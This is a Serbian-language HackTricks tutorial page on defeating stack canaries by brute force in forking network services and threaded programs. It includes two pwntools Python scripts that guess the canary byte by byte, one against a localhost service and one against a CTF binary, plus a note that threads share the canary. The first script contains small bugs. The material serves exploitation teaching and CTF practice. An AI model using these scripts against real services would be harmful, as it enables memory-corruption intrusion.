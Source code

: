 # BF Forked & Threaded Stack Canaries

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

**Ako se suočavate sa binarnim fajlom zaštićenim kanarincem i PIE (Position Independent Executable) verovatno ćete morati da pronađete način da ih zaobiđete.**

![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Imajte na umu da **`checksec`** možda neće otkriti da je binarni fajl zaštićen kanarincem ako je statički kompajliran i nije u mogućnosti da identifikuje funkciju.\
Međutim, možete ručno primetiti ovo ako primetite da je vrednost sačuvana na steku na početku poziva funkcije i ako se ta vrednost proverava pre izlaska.
{% endhint %}

## Brute force kanarinca

Najbolji način zaobići jednostavan kanarinac je ako je binarni fajl program koji **forkuje dečje procese svaki put kada uspostavite novu konekciju** sa njim (mrežna usluga), jer će se svaki put kada se povežete **koristiti isti kanarinac**.

Zatim, najbolji način zaobići kanarinac je jednostavno **brute-force-ovati ga karakter po karakter**, i možete saznati da li je pretpostavljeno bajt kanarinca tačan proverom da li je program pao ili nastavlja svoj redovan tok. U ovom primeru funkcija **brute-force-uje 8 bajtova kanarinca (x64)** i razlikuje između tačno pretpostavljenog bajta i lošeg bajta samo **proverom** da li je **odgovor** poslat od strane servera (na drugi način u **drugim situacijama** moglo bi se koristiti **try/except**):

### Primer 1

Ovaj primer je implementiran za 64 bita ali se lako može implementirati za 32 bita.

```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```

### Primer 2

Ovo je implementirano za 32 bita, ali se lako može promeniti na 64 bita.\
Takođe, obratite pažnju da ovaj primer **očekuje da program prvo dobije bajt koji označava veličinu unosa** i sam payload.

```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```

## Niti

Niti istog procesa će takođe **deliti isti canary token**, stoga će biti moguće **brute-force**-ovati canary ako binarni fajl pokrene novu nit svaki put kada se desi napad.

## Ostali primeri & reference

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html)
* 64 bita, bez PIE-a, nx, BF canary, upisati u neku memoriju ROP za poziv `execve` i skočiti tamo.
